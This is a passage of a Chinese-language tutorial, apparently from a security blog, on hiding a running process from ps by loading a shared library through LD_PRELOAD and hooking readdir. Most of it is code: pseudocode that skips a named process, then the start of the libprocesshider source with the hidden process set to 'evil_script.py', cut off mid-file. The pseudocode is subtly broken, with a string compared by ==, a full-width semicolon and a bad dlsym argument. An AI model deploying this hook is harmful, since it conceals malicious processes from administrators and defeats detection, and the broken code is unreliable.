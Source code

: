 #### 如何hook?

我们这里使用的是ld_preload技术，关于此技术可以看我另一篇[文章][https://www.freebuf.com/articles/system/247462.html]，这里不多介绍

接下来我们正式编写hook函数，先以伪代码进行介绍

```c
#define _GNU_SOURCE

#include <stdio.h>
#include <dlfcn.h>
#include <dirent.h>
#include <string.h>
#include <unistd.h>

/* 这里声明一个函数指针，用来存储readdir函数原始调用 */
static struct dirent* (*original_readdir)(DIR*) = NULL;

/* 这里是我们伪造的readdir函数，由于我们的so库最早被调用，所以ps程序调用readdir函数时也就调用了我们的同名函数*/
struct dirent* readdir(DIR *dirp)                                       
{   
    /* 使用dlsym函数获取readdir真正的入口 */
    if(original_readdir == NULL)                                  
        original_readdir = dlsym(RTLD_NEXT, readdir);                                                                                                                                                     
    
  	struct dirent* dir;                                                 
    
  	/* 这里循环调用原始readdir函数 */
    while(1)                                                            
    {                                                                   
        dir = original_readdir(dirp);
      	// 判断是否为特定的进程名
      	process_name = get_process_name(dir);
        if(process_name=="123456"){
          //是，则继续循环，这样就相当于跳过了特定的进程，不打印信息
          continue；
        }   
                                                                                                                             
        break;                                                          
    }                                                                   
    return dir;                                                         
}
```

整个流程非常简单，这里引用一段完整的代码：[github][https://github.com/gianlucaborello/libprocesshider]

修改process_to_filter变量为要隐藏的进程即可

```c
#define _GNU_SOURCE

#include <stdio.h>
#include <dlfcn.h>
#include <dirent.h>
#include <string.h>
#include <unistd.h>

/*
 * Every process with this name will be excluded
 */
static const char* process_to_filter = "evil_script.py";

/*
 * Get a directory name given a DIR* handle
```